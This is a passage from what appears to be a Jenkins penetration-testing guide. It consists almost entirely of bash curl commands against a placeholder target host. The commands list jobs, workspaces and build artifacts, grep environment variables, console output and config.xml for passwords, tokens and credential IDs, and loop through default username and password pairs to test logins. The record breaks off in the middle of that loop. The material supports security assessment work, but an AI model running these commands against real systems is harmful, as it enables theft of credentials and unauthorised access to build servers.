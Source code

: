 #### Job and Pipeline Discovery
```bash
# Job enumeration via API
curl -s "http://target.com:8080/api/json" | jq -r '.jobs[] | .name'

# Build history analysis
curl -s "http://target.com:8080/api/json?tree=jobs[name,builds[number,url]]" | \
  jq -r '.jobs[] | .name + ": " + (.builds | length | tostring) + " builds"'

# Workspace content discovery
curl -s "http://target.com:8080/job/[JOB_NAME]/ws/" | grep -oP 'href="[^"]*"'

# Build artifact enumeration
curl -s "http://target.com:8080/job/[JOB_NAME]/[BUILD_NUMBER]/artifact/"
```

#### Credential and Secret Discovery
```bash
# Credential store enumeration (if accessible)
curl -s "http://target.com:8080/credentials/" | grep -i credential

# Environment variable exposure
curl -s "http://target.com:8080/env-vars.html/" | grep -E "(password|secret|key|token)"

# Build environment analysis
curl -s "http://target.com:8080/job/[JOB_NAME]/[BUILD_NUMBER]/console" | \
  grep -E "(password|secret|key|token)" | head -10

# Git repository credentials
curl -s "http://target.com:8080/job/[JOB_NAME]/config.xml" | \
  grep -E "(username|password|credentialsId)"
```

---

## Authentication & Authorization Assessment

### Default Credential Testing

#### Common Jenkins Credentials
```bash
# Standard default credentials to test
jenkins_creds=(
    "admin:admin"
    "jenkins:jenkins"
    "admin:password"
    "admin:jenkins"
    "admin:"
    "jenkins:admin"
    "admin:123456"
    "root:root"
    "administrator:administrator"
)

# Automated credential testing
for cred in "${jenkins_creds[@]}"; do
    username=$(echo $cred | cut -d':' -f1)
    password=$(echo $cred | cut -d':' -f2)
    
    response=$(curl -s -u "$username:$password" \
        -c cookies.txt \
        "http://target.com:8080/me/api/json" \
        -w "%{http_code}")
    
```
